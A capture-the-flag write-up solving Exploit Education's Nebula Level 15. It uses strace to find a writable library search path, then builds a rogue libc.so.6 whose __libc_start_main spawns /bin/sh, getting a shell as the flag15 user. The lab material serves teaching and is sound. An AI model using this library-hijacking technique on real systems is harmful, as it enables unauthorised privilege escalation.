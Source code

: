 # Nebula - [LEVEL 15](https://exploit.education/nebula/level-15/)

Level Description:

![level.JPG](images/level.JPG)

# Nebula - [LEVEL 15](https://exploit.education/nebula/level-15/) - Solution

By running the binary we get the following message:
```console
level15@nebula:/home/flag15$ ./flag15
strace it!
```

Let's run ```strace``` command:
```c
level15@nebula:/home/flag15$ strace ./flag15
execve("./flag15", ["./flag15"], [/* 19 vars */]) = 0
brk(0)                                  = 0x93ca000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb784f000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/i686/sse2/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/i686/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/i686/sse2", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/i686/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/i686/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/i686/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/i686", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/sse2/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/sse2", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/i686/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/i686/sse2/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/i686/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/i686/sse2", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/i686/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/i686/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/i686/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/i686", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/sse2/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/sse2", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/cmov", 0xbfc0def4) = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15", {st_mode=S_IFDIR|0775, st_size=3, ...}) = 0
...
```

As we can see on the last line the binary looks for ```/var/tmp/flag15/libc.so.6``` file on ```/var/tmp/flag15``` directory which we can write to this directory.

We can solve the challenge by compiling the ```.so``` file with the name ```libc.so.6``` which contains our custom code.

Let's write the following ```C``` shared object code:
```c
#include <linux/unistd.h>

int __libc_start_main(int (*main) (int, char **, char **), int argc, char *argv, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void *stack_end) {
  system("/bin/sh");
}

void __cxa_finalize (void *d) {
   return;
}
```

Compile it, copy to ```/var/tmp/flag15``` and run the binary ```/home/flag15/flag15```:
```console
level15@nebula:/tmp/level15$ gcc -shared -fPIC -o libc.so.6 mylibc.c
level15@nebula:/tmp/level15$ cp libc.so.6 /var/tmp/flag15/
level15@nebula:/tmp/level15$ /home/flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
level15@nebula:/tmp/level15$

```

We get the error about the version, We can solve it by appending ```version-script``` flag to ```gcc```.

Version scripts provide information that can be used by GNU/Linux distribution packaging tools. For example, Debian has a tool dpkg-shlibdeps that can determine the minimal required version of each dependency (by looking at the symbol list) and stuff the information into the Debian specific packaging files ([Reference](https://www.gnu.org/software/gnulib/manual/html_node/LD-Version-Scripts.html]).

We need to create a file called ```version``` which contains:
```c
GLIBC_2.0 {};
```

Let's compile it again with this flag:
```console
level15@nebula:/tmp/level15$ gcc -shared -fPIC -o libc.so.6 mylibc.c -Wl,--version-script=version
level15@nebula:/tmp/level15$ cp libc.so.6 /var/tmp/flag15/
level15@nebula:/tmp/level15$ /home/flag15/flag15
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
level15@nebula:/tmp/level15$
```

To solve this error we need to compile our library statically which actually "copy" all the dependencies it needs to the ```so``` file:
```console
level15@nebula:/tmp/level15$ gcc -shared -fPIC -o libc.so.6 mylibc.c -Wl,--version-script=version
level15@nebula:/tmp/level15$ ls -ltr
total 16
-rw-rw-r-- 1 level15 level15  266 2022-01-13 21:21 mylibc.c
-rw-rw-r-- 1 level15 level15   14 2022-01-13 21:25 version
-rwxrwxr-x 1 level15 level15 6854 2022-01-13 21:29 libc.so.6
level15@nebula:/tmp/level15$ gcc -fPIC -shared  -o libc.so.6 mylibc.c -static-libgcc -Wl,--version-script=version,-Bstatic
level15@nebula:/tmp/level15$ ls -ltr
total 780
-rw-rw-r-- 1 level15 level15    266 2022-01-13 21:21 mylibc.c
-rw-rw-r-- 1 level15 level15     14 2022-01-13 21:25 version
-rwxrwxr-x 1 level15 level15 779365 2022-01-13 21:29 libc.so.6

level15@nebula:/tmp/level15$ cp libc.so.6 /var/tmp/flag15/

```

Look at the size before the static compile and after (6854 bytes vs 779365 bytes).

Now, Let's run the binary:
```console
level15@nebula:/tmp/level15$ /home/flag15/flag15
sh-4.2$ whoami
flag15
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

And we are successfully running ```getflag``` command as ```flag15``` user.